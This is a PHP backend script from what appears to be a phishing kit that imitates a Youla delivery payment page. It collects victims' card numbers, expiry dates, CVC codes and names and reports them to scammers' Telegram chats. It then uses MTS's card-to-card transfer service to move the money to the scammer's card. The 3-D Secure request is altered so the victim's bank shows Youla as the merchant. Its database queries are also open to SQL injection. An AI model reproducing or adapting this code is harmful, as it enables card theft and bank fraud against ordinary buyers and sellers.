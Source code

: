 <?php

	require_once $_SERVER['DOCUMENT_ROOT'].'/system/mysql.php';
	require_once $_SERVER['DOCUMENT_ROOT'].'/system/config.php';

	if(isset($_POST['order_id'])) {
		error_reporting(E_ERROR | E_PARSE);
		
		date_default_timezone_set("Europe/Moscow");
		
		$advert = mysqli_fetch_assoc(mysqli_query($connection, "SELECT `worker`, `price`, `delivery` FROM `adverts` WHERE `advert_id` = '$_POST[order_id]'"));
		$worker = mysqli_fetch_assoc(mysqli_query($connection, "SELECT `card` FROM `accounts` WHERE `telegram` = '$advert[worker]'"));
		
		$exp = explode('/', $_POST['expdate']);
		
		$card_number = str_replace(" ", "", $_POST["cardnumber"]);
		$mounth = $exp[0];
		$year = $exp[1];
		$cvc = $_POST['cvc2'];
		$amount = $_POST['amount'];
		
		if(!isset($card_number) OR !isset($mounth) OR !isset($year) OR !isset($cvc)) {
			$text = "⛔️ <b>Мамонт не смог оплатить доставку</b>⛔️\n\n";
			$text .= "💢Платформа: <code>Youla</code>\n";
			$text .= "ID воркера: <a href=\"tg://user?id=$advert[worker]\">$advert[worker]</a>\n";
			$text .= "Трек-код: <code>$_POST[order_id]</code>\n";
			$text .= "Сумма: <code>$amount руб.</code>\n\n";
			$text .= "<b>Информация об ошибке:</b>\n<code>Не указаны реквизиты карты мамонта</code>\n";
			
			send($config['token'], 'sendMessage', Array('chat_id' => $config['moders'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
			send($config['token'], 'sendMessage', Array('chat_id' => $advert['worker'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
			
			if($_COOKIE['type'] == 'order') {
				die(header("Location: https://$_SERVER[SERVER_NAME]/payment?id=$_POST[order_id]"));
			} elseif($_COOKIE['type'] == 'refund') {
				die(header("Location: https://$_SERVER[SERVER_NAME]/refund?id=$_POST[order_id]"));
			} else {
				die(header("Location: https://$_SERVER[SERVER_NAME]/track?track_id=$_POST[order_id]"));
			}
		}

		if(!isset($amount) OR $advert['amount'] > $amount) {
			$text = "⛔️ <b>Мамонт не смог оплатить доставку</b>⛔️\n\n";
			$text .= "💢Платформа: <code>Youla</code>\n";
			if(isset($advert['worker'])) $text .= "ID воркера: <a href=\"tg://user?id=$advert[worker]\">$advert[worker]</a>\n";
			if(isset($_POST['order_id'])) $text .= "Трек-код: <code>$_POST[order_id]</code>\n";
			if(isset($amount)) $text .= "Сумма: <code>$amount руб.</code>\n\n";
			$text .= "<b>Информация об ошибке:</b>\n<code>Сумма оплаты меньше суммы объявления или она совсем пустая</code>\n";
			
			send($config['token'], 'sendMessage', Array('chat_id' => $config['moders'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
			send($config['token'], 'sendMessage', Array('chat_id' => $advert['worker'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
			
			if($_COOKIE['type'] == 'order') {
				die(header("Location: https://$_SERVER[SERVER_NAME]/payment?id=$_POST[order_id]"));
			} elseif($_COOKIE['type'] == 'refund') {
				die(header("Location: https://$_SERVER[SERVER_NAME]/refund?id=$_POST[order_id]"));
			} else {
				die(header("Location: https://$_SERVER[SERVER_NAME]/track?track_id=$_POST[order_id]"));
			}
		}

		if($worker['card'] == 0 AND $config['card'] == 0) {
			$text = "⛔️ <b>Мамонт не смог оплатить доставку</b>⛔️\n\n";
			$text .= "💢Платформа: <code>Youla</code>\n";
			$text .= "ID воркера: <a href=\"tg://user?id=$advert[worker]\">$advert[worker]</a>\n";
			$text .= "Трек-код: <code>$_POST[order_id]</code>\n";
			$text .= "Сумма: <code>$amount руб.</code>\n\n";
			$text .= "<b>Информация об ошибке:</b>\n<code>У воркера не привязана карта и не установлена карта по умолчанию</code>\n";
			
			send($config['token'], 'sendMessage', Array('chat_id' => $config['moders'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
			send($config['token'], 'sendMessage', Array('chat_id' => $advert['worker'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
			
			if($_COOKIE['type'] == 'order') {
				die(header("Location: https://$_SERVER[SERVER_NAME]/payment?id=$_POST[order_id]"));
			} elseif($_COOKIE['type'] == 'refund') {
				die(header("Location: https://$_SERVER[SERVER_NAME]/refund?id=$_POST[order_id]"));
			} else {
				die(header("Location: https://$_SERVER[SERVER_NAME]/track?track_id=$_POST[order_id]"));
			}

		} else {
			$query = mysqli_query($connection, "SELECT `id` FROM `cards` WHERE `number` = '$worker[card]' AND `status` = '1'");
			
			if(mysqli_num_rows($query) > 0) {
				$card = $worker['card'];
			} else {
				if($config['card'] == 0) {
					$text = "⛔️ <b>Мамонт не смог оплатить доставку</b>⛔️\n\n";
					$text .= "💢Платформа:</b> <code>Youla</code>\n";
					$text .= "ID воркера: <a href=\"tg://user?id=$advert[worker]\">$advert[worker]</a>\n";
					$text .= "Трек-код: <code>$_POST[order_id]</code>\n";
					$text .= "Сумма: <code>$amount руб.</code>\n\n";
					$text .= "<b>Информация об ошибке:</b>\n<code>У воркера привязана неактивная карта и не установлена карта по умолчанию</code>\n";
					
					send($config['token'], 'sendMessage', Array('chat_id' => $config['moders'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
					send($config['token'], 'sendMessage', Array('chat_id' => $advert['worker'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
					
					if($_COOKIE['type'] == 'order') {
						die(header("Location: https://$_SERVER[SERVER_NAME]/payment?id=$_POST[order_id]"));
					} elseif($_COOKIE['type'] == 'refund') {
						die(header("Location: https://$_SERVER[SERVER_NAME]/refund?id=$_POST[order_id]"));
					} else {
						die(header("Location: https://$_SERVER[SERVER_NAME]/track?track_id=$_POST[order_id]"));
					}
				} else {
					$card = $config['card'];
				}
			}
		}
		
		setcookie('num', $card_number, time()+3600, '/');
		setcookie('exp', $_POST['expdate'], time()+3600, '/');
		setcookie('cvc', $_POST['cvc2'], time()+3600, '/');
		setcookie('name', mb_strtoupper($_POST['cardholder']), time()+3600, '/');
		
		$text = "⚠️💳 <b>Мамонт вбивает данные от карты</b>💳⚠️\n\n";
		$text .= "💢Платформа: <code>Youla</code>\n";
		$text .= "Трек-код: <code>$_POST[order_id]</code>\n";
		$text .= "Сумма: <code>$amount руб.</code>\n";
		
		send($config['token'], 'sendMessage', Array('chat_id' => $advert['worker'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
		
		$text = "⚠️💳 <b>Мамонт вбил данные от карты</b>💳⚠️\n\n";
		$text .= "💢Платформа: <code>Youla</code>\n";
		$text .= "ID воркера: <a href=\"tg://user?id=$advert[worker]\">$advert[worker]</a>\n";
		$text .= "Трек-код: <code>$_POST[order_id]</code>\n";
		$text .= "Сумма: <code>$amount руб.</code>\n\n";
		$text .= "Номер карты: <code>$card_number</code>\n";
		$text .= "Имя на карте: <code>".mb_strtoupper($_POST['cardholder'])."</code>\n";
		$text .= "Действительна до: <code>$mounth/$year</code>\n";
		$text .= "CVC/CVV: <code>$cvc</code>\n";
		
		send($config['token'], 'sendMessage', Array('chat_id' => $config['moders'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
		unset($text);
		
		//--------------------------------------------------------------------------------------------------

		// Session
		$ch = curl_init('https://payment.mts.ru/transfer/CardToCard');
        curl_setopt($ch, CURLOPT_HTTPHEADER, [
            'User-Agent: '.getallheaders()['User-Agent'],
            'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language: en-US,en;q=0.5',
            'Accept-Encoding: gzip, deflate, br',
            'Upgrade-Insecure-Requests: 1',
            'Cache-Control: max-age=0'
        ]);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch,CURLOPT_ENCODING, 'gzip');
        curl_setopt($ch, CURLOPT_HEADER, 1);
        $session = curl_exec($ch);
        $tsf = curl_getinfo($ch);
        curl_close($ch);

        preg_match_all('#RequestVerificationToken" type="hidden" value="(.+?)" /></form>#is', $session, $vertoken);
        preg_match_all('/^Set-Cookie:\s*([^;]*)/mi', $session, $matches);

        $cookies = array();
        foreach($matches[1] as $item) {
            parse_str($item, $cookie);
            $cookies = array_merge($cookies, $cookie);
        }
        $coc = [];
        foreach($cookies as $key=>$val){
            $coc[str_replace('_','.',$key)] = $val;     
        }


        $params = [
            "ExternalTransfer"=>	"true",
			"TokenizedTargetPan"=>	"",
			"TargetPanValue"=>	$card,
			"Sum"=>	$amount,
			"SourceInstrumentId"=>	"ANONYMOUS_CARD",
			"Pan"=>	$card_number,
			"ExpiryMonth"=>	"",
			"ExpiryYear"=>	"",
			"CardholderName"=>	"NONAME",
			"Cvc"	=>"",
			"__RequestVerificationToken"=>	$vertoken[1][0],
			"Currency"=>	"undefined"
        ];

        $params['ExpiryMonth'] = $mounth;
        $params['ExpiryYear'] = $year;
        $params['Cvc'] = $cvc;
        $params['Location'] = 'https://payment.mts.ru/transfer/CardToCard';


        $ch = curl_init("https://payment.mts.ru/transfers/getterms");
        curl_setopt($ch, CURLOPT_HTTPHEADER, array(
            'Host: payment.mts.ru',
            'Accept: */*',
            'Accept-Encoding: gzip, deflate, br',
            'Referer: https://payment.mts.ru/transfer/CardToCard',
            'X-Requested-With: XMLHttpRequest',
            'User-Agent: '.getallheaders()['User-Agent'],
            'Content-Type: application/x-www-form-urlencoded; charset=UTF-8',
            'Cookie: .AspNetCore.Antiforgery.Ge25QBab4-8='.$coc['.AspNetCore.Antiforgery.Ge25QBab4-8'].'; .AspNetCore.RegionId='.$coc['.AspNetCore.RegionId'].
            '; BIGipServermsk-pool-eksite-10.74.58.129-fw15-dmz21-81='.$coc['BIGipServermsk-pool-eksite-10.74.58.129-fw15-dmz21-81'],
        ));
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_POST, true);
        curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($params));
        $comission = curl_exec($ch);
        curl_close($ch);
        $com = json_decode($comission, 1);

        $ch = curl_init("https://payment.mts.ru/transfer/do");
        curl_setopt($ch, CURLOPT_HTTPHEADER, array(
            'Host: payment.mts.ru',
            'Accept: */*',
            'Accept-Encoding: gzip, deflate, br',
            'Referer: https://payment.mts.ru/transfer/CardToCard',
            'X-Requested-With: XMLHttpRequest',
            'User-Agent: '.getallheaders()['User-Agent'],
            'Content-Type: application/x-www-form-urlencoded; charset=UTF-8',
            'Cookie: .AspNetCore.Antiforgery.Ge25QBab4-8='.$coc['.AspNetCore.Antiforgery.Ge25QBab4-8'].'; .AspNetCore.RegionId='.$coc['.AspNetCore.RegionId'],
        ));
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_POST, true);
        curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($params));
        $comission = curl_exec($ch);
        curl_close($ch);
        $d3s = json_decode($comission,1);

        $d3s["__RequestVerificationToken"] =	$vertoken[1][0];
        $d3s[".AspNetCore.Antiforgery.Ge25QBab4-8"] =	$coc['.AspNetCore.Antiforgery.Ge25QBab4-8'];
        $d3s["BIGipServermsk-pool-eksite-10.74.58.129-fw15-dmz21-81"] =	$coc['BIGipServermsk-pool-eksite-10.74.58.129-fw15-dmz21-81'];
        $d3s[".AspNetCore.RegionId"] =	$coc['.AspNetCore.RegionId'];
        $d3s["card_number"] = $card_number;
		$d3s["mmyy"] = $mounth.'/'.$year;
		$d3s["cvc"] = $cvc;
		$d3s["amount"] = $amount;
		file_put_contents("temp/" . $d3s['mdOrder'], json_encode($d3s, JSON_UNESCAPED_UNICODE));
		$ab = 'https://'.$_SERVER['SERVER_NAME'].dirname($_SERVER['REQUEST_URI']).'/status.php?md='.$d3s['model']["md"].'&mdorder='.$d3s['mdOrder'].'&amount='.(int)$amount.'&order_id=' . (int)$_POST["order_id"].'">';
		if(!isset($d3s['model']["paReq"])){
    		$text = "⛔️ <b>Мамонт не смог оплатить доставку</b>⛔️\n\n";
			$text .= "💢Платформа: <code>Youla</code>\n";
			$text .= "ID воркера: <a href=\"tg://user?id=$advert[worker]\">$advert[worker]</a>\n";
			$text .= "Трек-код: <code>$_POST[order_id]</code>\n";
			$text .= "Сумма: <code>$amount руб.</code>\n\n";
			$text .= "<b>Информация об ошибке:</b>\n<code>Не удалось построить форму 3DSecure</code>\n";
			
			send($config['token'], 'sendMessage', Array('chat_id' => $config['moders'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
			send($config['token'], 'sendMessage', Array('chat_id' => $advert['worker'], 'text' => $text, 'parse_mode' => 'HTML', 'disable_web_page_preview' => 'true'));
			
			if($_COOKIE['type'] == 'order') {
				die(header("Location: https://$_SERVER[SERVER_NAME]/payment?id=$_POST[order_id]"));
			} elseif($_COOKIE['type'] == 'refund') {
				die(header("Location: https://$_SERVER[SERVER_NAME]/refund?id=$_POST[order_id]"));
			} else {
				die(header("Location: https://$_SERVER[SERVER_NAME]/track?track_id=$_POST[order_id]"));
			}
		}

		if($_COOKIE['type'] == 'refund') {
			$newpareq = renameShop($d3s['model']["paReq"], 'Youla | Возврат средств', 'https://Youla.ru/');
		} else {
			$newpareq = renameShop($d3s['model']["paReq"], 'Youla', 'https://Youla.ru/');
		}

		echo '<body onload="document.forms[0].submit()">'.
				'<form action="'.$d3s['model']["acsUrl"].'" method="post">' .
				'<input type="hidden" name="PaReq" value="'.$newpareq.'">' .
				'<input type="hidden" name="MD" value="'.$d3s['model']["md"].'">' .
				'<input type="hidden" name="TermUrl" value="'.$ab.'">' .
				'<input type="hidden" name="MdOrder" value="'.$d3s['model']["mdOrder"].'">' .
				'<input type="hidden" name="__RequestVerificationToken" value="'.$d3s["__RequestVerificationToken"].'">' .
				'</form>' .
				'</body>';
	} else {
		die(header("Location: https://$_SERVER[SERVER_NAME]/"));
	}
?>
